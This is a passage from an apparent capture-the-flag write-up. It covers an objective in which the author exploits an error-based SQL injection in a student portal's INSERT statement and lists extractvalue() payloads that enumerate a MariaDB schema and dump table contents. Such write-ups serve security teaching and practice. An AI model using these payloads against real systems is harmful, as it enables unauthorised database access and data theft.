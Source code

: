 Checking my mailbox I saw that I had received an email with the subject "You're A Winner of the Frido Sleigh Contest!" containing the code "8Ia8LiZEwvyZr2WO".

## Objective 9 - Retrieve Scraps of Paper from Server

> Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system?

If we try to submit an application we quickly find that the website has a SQL injection in the INSERT statement used to save the application.
For example, adding a single quote to the essay field yields the following error:

> Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('1', '3@4.com', '4', '5', '6', '7'', 'pending')
> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'pending')' at line 2

Since the SQL error is printed out we can used error based SQL injection to leak data. For example, by submitting an essay with the following value:

> '*extractvalue(rand(),concat(0x3a, (SELECT version()) ))*'

We get the this error back:

> Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('x', 'lol+123@kok.com', '1', '2', '3', 'bond'*extractvalue(rand(),concat(0x3a, (SELECT version()) ))*'', 'pending')
> XPATH syntax error: ':10.1.43-MariaDB-1~bionic'

Continuing in the same fashion, we can use the following values to extract the schema names, table names, column names and finally values from the database:

> ; Get schemas  
> '*extractvalue(rand(),concat(0x3a, (SELECT table_schema from information_schema.tables group by table_schema limit 0,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT table_schema from information_schema.tables group by table_schema limit 1,1) ))*'  
>   
> ; Get tables in schema "elfu"  
> '*extractvalue(rand(),concat(0x3a, (SELECT table_name from information_schema.tables where table_schema = 'elfu' group by table_name limit 0,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT table_name from information_schema.tables where table_schema = 'elfu' group by table_name limit 1,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT table_name from information_schema.tables where table_schema = 'elfu' group by table_name limit 2,1) ))*'  
>   
> ; Get columns in table "krampus"  
> '*extractvalue(rand(),concat(0x3a, (SELECT column_name from information_schema.columns where table_name = 'krampus' and table_schema = 'elfu' limit 0,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT column_name from information_schema.columns where table_name = 'krampus' and table_schema = 'elfu' limit 1,1) ))*'  
>   
> ; Get values in table "krampus"  
> '*extractvalue(rand(),concat(0x3a, (SELECT path from krampus limit 0,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT path from krampus limit 1,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT path from krampus limit 2,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT path from krampus limit 3,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT path from krampus limit 4,1) ))*'  
> '*extractvalue(rand(),concat(0x3a, (SELECT path from krampus limit 5,1) ))*'  

